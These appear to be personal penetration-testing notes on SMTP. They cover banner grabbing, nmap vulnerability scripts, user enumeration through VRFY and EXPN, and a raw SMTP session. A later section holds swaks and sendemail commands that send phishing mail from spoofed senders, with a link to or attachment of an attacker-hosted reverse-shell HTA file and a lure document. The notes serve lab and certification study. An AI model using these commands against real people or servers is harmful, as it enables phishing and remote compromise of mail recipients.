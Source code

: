 # (25) SMTP

<details>

<summary>Intro</summary>

* Used to send, receive, and relay outgoing emails
* Main attacks are user enumeration and using an open relay to send spam

</details>

<details>

<summary>Banner Grabbing</summary>

```bash
telnet 10.3.3.47 25
```

* Need to wait for a while

</details>

<details>

<summary>Nmap</summary>

```
nmap 192.168.1.101 --script=smtp* -p 25
```

<pre><code><strong>nmap --script=smtp-commands,smtp-enum-users,smtp-vuln-cve2010-4344,smtp-vuln-cve2011-1720,smtp-vuln-cve2011-1764 -p 25 $ip
</strong></code></pre>

</details>

<details>

<summary>User Enumeration</summary>

```bash
smtp-user-enum -M VRFY -U /usr/share/wordlists/metasploit/unix_users.txt -t $ip
```

* Use `/usr/share/seclists/Usernames/Names/names.txt` wordlist

#### For multiple servers

```bash
for server in $(cat smtpmachines); do echo "******************" $server "*****************"; smtp-user-enum -M VRFY -U userlist.txt -t $server;done
```

</details>

<details>

<summary>Manual Enumeration</summary>

#### Command to check if a user exists

```
VRFY root
```

#### Command to ask the server if a user belongs to a mailing list

```
EXPN root
```

</details>

<details>

<summary>Sending Email using NC</summary>

#### Identify yourself to the mail server

```
HELO example.com
```

#### Specify a return address for the message (if message bounces)

```
MAIL FROM:bar@example.org
```

#### Specify at least one recipient for the message

```
RCPT TO:foo@example.com
```

#### Send the message data

```
DATA
From: bar@example.org
To: foo@example.com
Subject: Test
Date: Thu, 20 Dec 2012 12:00:00 +0000

Testing
.
```

</details>

## OSEP Notes Below

<details>

<summary>Send Email via Swaks</summary>

```bash
# Send phishing link
swaks --to will@example.com --server 192.168.131.159 --body "Hello, check out my link. http://192.168.45.170/rev.hta" --header "Subject: Issues" --from bob@example.com

# Send attachment
swaks --to will@example.com --server 192.168.131.159 --body "Hello, check out my link." --header "Subject: Issues" --from bob@example.com --add-header "MIME-Version: 1.0" --attach @rev.hta
```

</details>

<details>

<summary>Send Email via SendEmail</summary>

```bash
sendemail -t jobs@cowmotors-int.com -f bill@cowmotors-int.com -s WEB03.cowmotors-int.com -m "CV" -u "CV" -a cv.doc -v
```

</details>
